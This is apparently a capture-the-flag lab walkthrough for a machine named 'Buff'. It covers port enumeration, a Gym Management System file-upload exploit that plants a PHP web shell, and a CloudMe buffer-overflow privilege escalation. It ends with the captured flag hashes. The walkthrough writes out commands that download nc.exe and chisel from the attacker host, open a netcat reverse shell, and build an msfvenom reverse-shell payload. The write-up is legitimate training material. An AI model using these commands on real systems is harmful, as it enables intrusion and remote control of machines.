

# Buff

**IP Address:** 10.10.10.198

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:--------|:---------|
| 7680 | pando-pub? | |
| 8080 | http | Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6) |
| 8888 | CloudMe | | 

## Exploitation
### Exploit Details (Github)
* **Name** - Gym Management System 1.0 - Unrestricted File Upload
* **CVE** - N/A
* **Module** - https://github.com/ssMMiles/gym-management-unrestricted-upload/blob/master/exploit.py
* **Disclosed** - 2020-09-01
* **References**
  * https://github.com/ssMMiles/gym-management-unrestricted-upload

Commands
```
python exploit.py -t $ip:8080 -f shells/cmd.php
curl "http://10.10.10.198:8080/cmd.php?cmd=powershell%20Invoke-WebRequest%20-Uri%20http%3A%2F%2F10.10.14.18%2Fnc.exe%20-Outfile%20nc.exe"
curl "http://10.10.10.198:8080/cmd.php?cmd=nc.exe%2010.10.14.18%2053%20-e%20cmd.exe"
whoami
type C:\Users\shaun\Desktop\user.txt
```


## Privilege Escalation
### Exploit Details (Searchsploit)
* **Name** - CloudMe 1.11.2 - Buffer Overflow (PoC) 
* **CVE** - N/A
* **Module** - windows/remote/48389.py
* **Disclosed** - 2020-04-28
* **References**
  * https://www.exploit-db.com/exploits/48389

The host has CloudMe running which is vulnerable to a Buffer Overflow however this is currently blocked by the firewall so we first need to use port tunneling to make the ports accessible from the attacking host. 

1. Download the Chisel-x64.exe file to the host

Commands
```PowerShell
Invoke-WebRequest http://10.10.14.18/windows/privesc/chisel-x64.exe -OutFile chisel-x64.exe
```

2. Make the chisel connection between the Linux attach host and the windows target. 

Commands
```
/opt/chisel/chisel server --reverse --port 9002
.\chisel-x64.exe client 10.10.14.18:9002 R:8888:localhost:8888
```


3. Create the payload for the exploit and paste it into the exploit script. 

Commands
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444  -b '\x00\x0A\x0D' -f python
```


4. Run the exploit and catch a reverse shell. 

Commands
```bash
python3 48389.py
whoami
type C:\Users\Administrator\Desktop\root.txt
```




## Loot
```
user.txt
80f82484cc2a5f04f1b95d6ebe8dd7bb
root.txt
3f825ca03c0caab249421ea1749d8d49
```